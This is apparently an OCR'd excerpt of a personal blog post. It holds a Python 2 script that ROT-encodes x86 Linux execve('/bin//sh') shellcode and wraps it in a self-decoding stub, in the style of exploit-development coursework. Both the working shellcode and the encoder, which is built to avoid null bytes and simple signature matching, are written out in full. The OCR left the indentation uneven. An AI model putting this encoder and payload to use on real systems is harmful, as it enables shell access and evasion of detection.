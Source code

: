     magic = parse_args()  
    rotated_execve = ""  
    hasNulls = False  
              
    print "[+] Generating ROT-{0} encoded payload".format(magic)  
      
    execvesh = ("\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\xb0\x0b\xcd\x80")  
      
      
    for i in bytearray(execvesh):  
     j = (i + magic)%256  
            if j == 0:  
                    hasNulls = True  
     rotated_execve += '\\x'  
     rotated_execve += '%02x' %j  
      
    sc = "\\xeb\\x09\\x5e\\x80\\x2e" + ("\\x%02x"%magic) + "\\x74\\x08\\x46\\xeb\\xf8\\xe8\\xf2\\xff\\xff\\xff"   
    sc += rotated_execve + ("\\x%02x"%magic)  
      
    print "[+] Generated shellcode: " + sc  
      
    if hasNulls:  
        print "[-] WARNING: Encoded payload contains at least one null byte, consider changing N"  
    

  
Feel free to give any feedback/suggestions.  
  
\- Abatchy

